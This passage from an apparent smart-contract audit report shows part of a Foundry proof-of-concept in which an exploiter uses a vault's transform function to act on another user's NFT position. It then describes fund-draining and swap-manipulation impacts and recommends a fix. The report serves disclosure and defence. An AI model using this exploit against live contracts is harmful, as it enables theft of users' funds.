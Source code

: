```solidity
        NPM.approve(address(autoCompound), ALICE_NFT);

        // Exploiter opens a position in the Vault
        vm.startPrank(EXPLOITER_ACCOUNT);
        NPM.approve(address(vault), EXPLOITER_NFT);
        vault.create(EXPLOITER_NFT, EXPLOITER_ACCOUNT);
        vm.stopPrank();

        // Exploiter passes ALICE_NFT as param
        AutoCompound.ExecuteParams memory params = AutoCompound.ExecuteParams(
            ALICE_NFT,
            false,
            0
        );

        // Exploiter account uses his own token to pass validation
        // but transforms Alice position
        vm.prank(EXPLOITER_ACCOUNT);
        vault.transform(
            EXPLOITER_NFT,
            address(autoCompound),
            abi.encodeWithSelector(AutoCompound.execute.selector, params)
        );
    }
```

Since the exploiter can control the calldata send to the transformer, he can impact any approved position in various ways. In the case of `AutoCompound` it can be:

* draining the position funds - AutoCompound collects a fee on every transformation. The exploiter can call it multiple times
* manipulating `swap0To1` & `amountIn` parameters to execute swaps in unfavourable market conditions, leading to loss of funds or value extraction

Those are only a couple of ideas. The impact can be quite severe depending on the transformer and parameters passed.

## Tools Used
Manual Review, Foundry

## Recommended Mitigation Steps
Consider adding a check inside `transform()` to make sure the provided `tokenId` and the one encoded as calldata are the same. This way the caller will not be able to manipulate other accounts positions.

## Assessed type
Invalid Validation


# [H-2] During transformation the caller can re-enter the Vault through the onERC721Received function

